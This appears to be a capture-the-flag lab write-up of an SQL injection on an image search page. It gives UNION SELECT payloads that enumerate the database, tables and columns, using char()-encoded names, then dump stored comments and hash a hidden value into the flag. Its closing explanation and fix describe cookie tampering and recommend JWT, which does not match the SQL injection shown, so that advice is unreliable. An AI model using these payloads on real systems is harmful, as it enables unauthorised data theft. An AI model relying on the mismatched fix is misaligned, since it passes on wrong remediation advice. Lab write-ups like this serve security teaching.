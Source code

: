 # 06 - SQL Injection Images

## Reproduce

We found an SQL Injection in: `http://{IP}/?page=searchimg`

SQL injection: is a code injection technique that might destroy your database.

- Get the database name: `1 AND 0=1 UNION SELECT 1, database()` 
===> `Member_images`

- Get the table name: `1 AND 0=1 UNION SELECT 1, TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = char(77,101,109,98,101,114,95,105,109,97,103,101,115)` 
===> `list_images`

- Get columns name: `1 AND 0=1 UNION SELECT 1, COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = char(77,101,109,98,101,114,95,105,109,97,103,101,115) AND TABLE_NAME = char(108,105,115,116,95,105,109,97,103,101,115)`
===> 
`
{
    'id',
    'url',
    'title',
    'comment'
}
`

- Let's list the `title + comment` of all the images :
`1 AND 0=1 UNION SELECT title,comment FROM list_images`

In the comment of 'Hack me ?' we found this:
`If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46` 

And that what we did :)
- Decode 1928e8083cf461a51303633093573c46 with MD5 ==> 'albatroz'
- Encode 'albatroz' using Sha256 ==> Tadaaaaaa flag


## Explaination of the vurnability

The developer tried to solve some sort of authentication by using cookies, by manipulating the values you can have access to some privileges, In general never put sensitive data in cookies.


## Fix 

- Use JWT (Json Web Token) for authentication
